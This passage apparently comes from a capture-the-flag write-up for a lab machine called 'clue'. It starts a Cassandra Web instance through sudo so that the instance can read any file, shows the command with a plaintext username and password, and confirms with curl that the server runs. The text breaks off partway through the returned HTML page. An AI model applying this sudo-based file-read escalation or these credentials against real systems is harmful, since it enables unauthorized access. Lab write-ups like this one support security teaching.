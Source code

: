 Having access to Cassandra Web we can read any file that it can. That means if we sudo another instance we can read any file.

We start another instance with sudo
`cassie@clue:/tmp$ sudo /usr/local/bin/cassandra-web -B 0.0.0.0:4444 -u cassie -p SecondBiteTheApple330`
`<b -B 0.0.0.0:4444 -u cassie -p SecondBiteTheApple330`
`I, [2024-02-09T16:22:56.868906 #24251]  INFO -- : Establishing control connection`
`I, [2024-02-09T16:22:56.945094 #24251]  INFO -- : Refreshing connected host's metadata`
`I, [2024-02-09T16:22:56.948574 #24251]  INFO -- : Completed refreshing connected host's metadata`
`I, [2024-02-09T16:22:56.949261 #24251]  INFO -- : Refreshing peers metadata`
`I, [2024-02-09T16:22:56.950245 #24251]  INFO -- : Completed refreshing peers metadata`
`I, [2024-02-09T16:22:56.950278 #24251]  INFO -- : Refreshing schema`
`I, [2024-02-09T16:22:56.984514 #24251]  INFO -- : Schema refreshed`
`I, [2024-02-09T16:22:56.984567 #24251]  INFO -- : Control connection established`
`I, [2024-02-09T16:22:56.984775 #24251]  INFO -- : Creating session`
`I, [2024-02-09T16:22:57.128945 #24251]  INFO -- : Session created`
`2024-02-09 16:22:57 -0500 Thin web server (v1.8.1 codename Infinite Smoothie)`
`2024-02-09 16:22:57 -0500 Maximum connections set to 1024`
`2024-02-09 16:22:57 -0500 Listening on 0.0.0.0:4444, CTRL+C to stop`

We can't contact it from our attack machine. Trying a couple other ports it doesn't work so there has to be a firewall.

Let's try to just curl it to make sure the server did actually start.

`freeswitch@clue:/$ curl 127.0.0.1:4444`
`curl 127.0.0.1:4444`
`<!DOCTYPE html>`
`<html lang="en" ng-app="cassandra">`
  `<head>`
    `<base href="/">`
    `<meta charset="utf-8">`
    `<meta http-equiv="X-UA-Compatible" content="IE=edge">`
    `<meta name="viewport" content="width=device-width, initial-scale=1">`
    `<title>Cassandra Web</title>`

    `<!-- Bootstrap -->`
    `<link rel="stylesheet" href="/css/bootstrap.css">`
    `<link rel="stylesheet" href="/css/bootstrap-theme.css">`

    `<!-- HTML5 Shim and Respond.js IE8 support of HTML5 elements and media queries -->`
    `<!-- WARNING: Respond.js doesn't work if you view the page via file:// -->`
    `<!--[if lt IE 9]>`
      `<script src="https://oss.maxcdn.com/html5shiv/3.7.2/html5shiv.min.js"></script>`
      `<script src="https://oss.maxcdn.com/respond/1.4.2/respond.min.js"></script>`
    `<![endif]-->`

    `<!-- CodeMirror -->`
    `<link rel="stylesheet" href="/css/codemirror.css">`
    `<link rel="stylesheet" href="/css/codemirror-solarized.css">`
    `<!-- Prism -->`
    `<link rel="stylesheet" href="/css/prism.css">`

    `<!-- Cassandra Web -->`
    `<link rel="stylesheet" href="/css/style.css">`
  `</head>`
  `<body ng-controller="main">`
    `<div class="navbar navbar-inverse navbar-fixed-top" role="navigation">`
      `<div class="container-fluid">`
        `<div class="navbar-header">`
          `<button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target=".navbar-collapse">`
            `<span class="sr-only">Toggle navigation</span>`
            `<span class="icon-bar"></span>`
            `<span class="icon-bar"></span>`
            `<span class="icon-bar"></span>`